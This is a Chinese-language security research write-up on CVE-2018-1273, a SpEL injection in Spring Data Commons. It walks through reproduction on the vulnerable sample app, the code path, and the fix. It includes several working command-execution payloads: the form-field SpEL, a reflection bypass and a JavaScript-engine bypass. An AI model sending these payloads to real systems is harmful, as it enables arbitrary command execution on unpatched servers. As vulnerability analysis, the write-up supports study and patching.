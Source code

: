 # 简介

Spring Data是一个用于简化数据库访问，并支持云服务的开源框架，其主要目标是使数据库的访问变得方便快捷。实际上国内的Java开发采用Spring Data系列的不多。这个漏洞本质也还是SPEL的问题

# 影响版本

Spring Data Commons在2.0.5及以前版本中，存在一处SpEL表达式注入漏洞，攻击者可以注入恶意SpEL表达式以执行任意命令。

- 2.0.x users should upgrade to 2.0.6
- 1.13.x users should upgrade to 1.13.11
- Older versions should upgrade to a supported branch

# 环境搭建&复现

首先下载官方的示例程序

https://github.com/spring-projects/spring-data-examples



然后切换到一个比较老的有漏洞的版本

git reset --hard ec94079b8f2b1e66414f410d89003bd333fb6e7d

IDEA打开自动处理完依赖后，运行这个main方法

![image-20210909130102817](CVE-2018-1273/image-20210909130102817.png)

访问`http://localhost:8080/users`

post传入payload,成功命令执行:

```http
username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc")]=&password=&repeatedPassword=
```

![image-20210909130214621](CVE-2018-1273/image-20210909130214621.png)

# 漏洞分析

在SpringDataWebConfiguration类的特性被启用的时候，会将 ProxyingHandlerMethodArgumentResolver处理器注册到参数处理器中去(这里在程序启动阶段执行)

![image-20210909195319978](CVE-2018-1273/image-20210909195319978.png)

这个 ProxyingHandlerMethodArgumentResolver处理器是实现了HandlerMethodArgumentResolver接口,该接口只有俩个方法，supportsParameter返回true表示支持解析，之后调用resolveArgument将结果作为参数传入

![image-20210909200921963](CVE-2018-1273/image-20210909200921963.png)



接着我们传入我们的payload:

![image-20210909203544617](CVE-2018-1273/image-20210909203544617.png)



![image-20210909203615365](CVE-2018-1273/image-20210909203615365.png)

然后这里进行遍历,当这里等于ProxyingHandlerMethodArgumentResolver时跟进去

![image-20210909203850579](CVE-2018-1273/image-20210909203850579.png)

这里我们传入的参数是一个接口,所以后面返回true,支持我们去解析

![image-20210909203957793](CVE-2018-1273/image-20210909203957793.png)

然后回到这里调用resolveArgument方法进行解析

![image-20210909204054653](CVE-2018-1273/image-20210909204054653.png)

这里new了一个MapDataBinder对象,然后调用它的bind方法,并且传入了request.getParameterMap()  (包含我们的payload)

![image-20210909204246500](CVE-2018-1273/image-20210909204246500.png)

![image-20210909204641888](CVE-2018-1273/image-20210909204641888.png)

接着一路走

![image-20210909204945304](CVE-2018-1273/image-20210909204945304.png)

这里有个while循环,快进到解析username

![image-20210909205221003](CVE-2018-1273/image-20210909205221003.png)

这里propertyName包含我们的payload,然后后面就是常规的解析操作

![image-20210909205319193](CVE-2018-1273/image-20210909205319193.png)

# 漏洞修复

将StandardEvaluationContext替代为SimpleEvaluationContext,将权限设置为最小

# 其他点

这里还看陈师傅有说:

Spring Data Commons 2.0.5版本中 MapDataBinder.java 的182添加了：

```
context.setTypeLocator(typeName -> {
    throw new SpelEvaluationException(SpelMessage.TYPE_NOT_FOUND, typeName);
});
```

![image-20210909220858550](CVE-2018-1273/image-20210909220858550.png)

会导致下面几种执行不成功。这里环境一直搭不出来,有点头大,没有在自己电脑上运行。

```
(new java.lang.ProcessBuilder('calc')).start()
T(java.lang.Runtime).getRuntime().exec('calc.exe')
```

可以使用反射绕过

```
username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc.exe")]=chybeta&password=chybeta&repeatedPassword=chybeta
```

还有这种基于js的

```	
username[#this.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('xterm')")]=asdf
```

这里环境一直搭不起,先留着吧,有时间再来看看

# 参考

https://www.mi1k7ea.com/2020/02/03/%E6%B5%85%E6%9E%90Spring-Data-Commons%E4%B9%8BCVE-2018-1273/

https://xz.aliyun.com/t/2269

https://mp.weixin.qq.com/s?__biz=MzU0NzYzMzU0Mw==&mid=2247483666&idx=1&sn=91e3b2aab354c55e0677895c02fb068c&from=1084195010&wm=20005_0002&weiboauthoruid=5458358938

https://xushao.ltd/post/cve-2018-1273-fen-xi/#%E8%A1%A5%E4%B8%81%E5%88%86%E6%9E%90
